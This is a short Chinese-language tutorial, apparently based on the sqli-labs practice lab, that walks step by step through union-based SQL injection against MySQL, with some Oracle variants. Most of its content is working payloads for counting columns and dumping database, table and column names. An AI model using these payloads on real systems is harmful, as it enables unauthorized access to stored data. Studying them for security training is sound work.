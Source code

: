 # 完整的SQL注入攻击流程（mysql）

1.判断是否能够注入

```
http://xxx.com/Less-1/?id=1
```

2.判断表中存在几个字段

```
id=1' order by 4 --+

' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```

3.判断字段位置

```
id=1' and 1=2 union select 1,2,3 --+
```

4.爆所有库.

MYSQL5.0以上版本：自带的数据库名information_schema

information_schema：存储数据库下的数据库名及表名，列名信息的数据库

information_schema.tables：记录表名信息的表

information_schema.columns：记录列名信息表



```
id=1' and 1=2 union select 1,database(),3 --+   查看当前库

id=1' and 1=2 union select 1,group_concat(schema_name),3 from information_schema.schemata --+

```

5.爆指定库的所有表

```
id=1' and 1=2 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security' --+

oracle:
'+UNION+SELECT+table_name,NULL+FROM+all_tables--
```

6.爆指定表的所有字段

```
id=1' and 1=2 union select 1,group_concat(column_name),3 from information_schema.columns where table_schema='security' and table_name='users' --+

oracle

'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--
```
